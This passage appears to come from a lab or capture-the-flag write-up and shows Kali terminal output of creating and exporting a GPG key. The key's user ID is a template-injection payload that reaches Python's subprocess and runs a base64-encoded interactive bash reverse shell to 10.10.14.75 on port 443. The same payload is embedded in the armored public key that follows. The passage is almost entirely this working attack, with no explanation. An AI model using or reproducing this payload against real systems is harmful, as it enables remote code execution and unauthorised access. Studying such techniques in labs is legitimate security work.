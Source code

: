 ```shell
We need to generate a lot of random bytes. It is a good idea to perform
some other action (type on the keyboard, move the mouse, utilize the
disks) during the prime generation; this gives the random number
generator a better chance to gain enough entropy.
We need to generate a lot of random bytes. It is a good idea to perform
some other action (type on the keyboard, move the mouse, utilize the
disks) during the prime generation; this gives the random number
generator a better chance to gain enough entropy.
gpg: revocation certificate stored as '/home/kali/.gnupg/openpgp-revocs.d/7A1F68F0ECE8286589EE7958BF01BC558ECA88D3.rev'
public and secret key created and signed.

pub   rsa3072 2023-11-04 [SC] [expires: 2025-11-03]
      7A1F68F0ECE8286589EE7958BF01BC558ECA88D3
uid                      { {''.__class__.__base__.__subclasses__()[439]('echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43NS80NDMgMD4mMSIK | base64 -d | bash', shell=True, stdout=-1).communicate()} } <curiosity@hacksfor.fun>
sub   rsa3072 2023-11-04 [E] [expires: 2025-11-03]

```

```shell
┌──(kali㉿kali)-[~/pgp-tinkering]
└─$ gpg --export --armor curiosity@hacksfor.fun > curiosity.pub      
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/pgp-tinkering]
└─$ gpg --clear-sign --default-key curiosity@hacksfor.fun example.txt
gpg: using "curiosity@hacksfor.fun" as default secret key for signing
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/pgp-tinkering]
└─$ cat curiosity.pub  
-----BEGIN PGP PUBLIC KEY BLOCK-----

mQGNBGVGWqMBDADjTAvXs3Ko12ErWHnm/yy+XrEoGcnhbyvz4vRD+NGSHCpK66om
+kgF180uNgsGfw2KWIooBwDI0I3X8jFQWMUK1EyrvMc+/mjuGnrbUhvHvxBy5Axx
O74aMmPEWD8R/UbpwoQZh2CVCLT6nnrbM1GMRIFZe2ibucIK3N+R3vx5BBNSTK7e
hrSgjw4neUtk1uVEaQP/9K45AQfrEWVLdmnZHaS9/KKDKOgsycQ3zaNLVXbUkoxb
4+M1Ft5119Ypg4/0fupRa80fY4WpJT4bfFufd1AOLatfthXM88R8aF3qFzkE19GI
8JksxMB5cSfF8BESMVRpVvJ1tA/yEB/8aog7w3h5wJMB3OXHxD206egnJN6pIgka
NH9H8zKZG6X/uOEf6D8rWp6eXxLQmcOdweSS1pVZ7h2r1NwDHb2x9IxFooWsB2P0
uU4Oh88RSsyO46+CJ29dIcWxGAIpAyPquQLs78B4SYHoIVYfi+g2q6CtNhEcPo76
L1RvwbiX0KeFchEAEQEAAbTNe3snJy5fX2NsYXNzX18uX19iYXNlX18uX19zdWJj
bGFzc2VzX18oKVs0MzldKCdlY2hvIFltRnphQ0F0WXlBaVltRnphQ0F0YVNBK0pp
QXZaR1YyTDNSamNDOHhNQzR4TUM0eE5DNDNOUzgwTkRNZ01ENG1NU0lLIHwgYmFz
ZTY0IC1kIHwgYmFzaCcsIHNoZWxsPVRydWUsIHN0ZG91dD0tMSkuY29tbXVuaWNh
dGUoKX19IDxjdXJpb3NpdHlAaGFja3Nmb3IuZnVuPokB1AQTAQoAPhYhBHofaPDs
6Chlie55WL8BvFWOyojTBQJlRlqjAhsDBQkDwmcABQsJCAcCBhUKCQgLAgQWAgMB
Ah4BAheAAAoJEL8BvFWOyojT6GMMAMJrIhxK7PyF9tQNYOtqDbPBBnwXnadd9mu2
Rib3l6q77zKr0FBtHY3GRMOed7gep8sMT29ABeiaP1B3Erx6gpikXh0SziLGueO3
1AYrkA5YvEMA+eQR1YBJeYKUkzMVWFlnX3j84PKps96cOtZwrkmZ8Ht5ekSMmvcI
VJbt8hmrnrBPmwJyeL8CnvRXfdWM7VAzAucFU5rVQN4LtJKHRjHo1D2o85lu8Ytv
4RUZKNcm7T7or209xcVkTD9Uw4qG0NnIkkCXBNJiG5ie/D7coqwbIOpc89K785gm
lqzvItdnYhOHb5mzWwdTYa0EDkS0gZkub+H1u6dg3KrT5yXMQJrrqrm7JNkSNJtk
NAirv38YV9sB1G7rRl+hK4O5lwqvbBZIAg9Be/WOMQcYrmZ8MNE+TCU9uLt0xvLF
Vi6w0ywxOLwIYeN7VTtrIKTk5qeqXaIOYXxUx2jlCp2IllfK0oeWmGK88FqHb8DU
wDbPYEJXQEaRwCMcVJAooT8QN9qmu7kBjQRlRlqjAQwA2UNuNDKgJqa5oHUJs4VS
cpzSOhg4zNxAF46r/dPPzwTvEhdAfl2tOzsQezCkI6egsWyGx/xzG69sUxje5wCo
G5gLRIxZmNSJ5DUK0ng/dwZ3eSQLL+OOPCT6XZWiLPAwWQmiyNlMfU+/ErkFsAX2
YfVmKAKm2tCSbXoXtMSXI8LsUyheu8sVxkQKmU/L2lv/UamlKVAe1zjAvIeyi78m
XJG6EmXm458dHkAjiqXnymwy/dYXox9/hNJgUzWaJOypH2GqPQuPLBYeuRndWp8c
uyxHIJ19O5w8gOBe+85gBgdUtuDhtsivdkHNnUfCjcYmKyatuu1dGMxRVmrbHmQd
7R1jMO9LqRqfldsVbHh2Q9PKnRH1Hag6hbwVe1Ui8dXTVoQ+odt5IM7YiQkHjREs
rkHfgJpnht3IUyJHYufGpcFn9T1P5hpsQHIxlDtR5a9MortQbHp1/GsDk38bZKI7
7kvRi6frsjBzdnEZlXIRNraGMX+HnfiZ0KuO6mMrIRB9ABEBAAGJAbwEGAEKACYW
```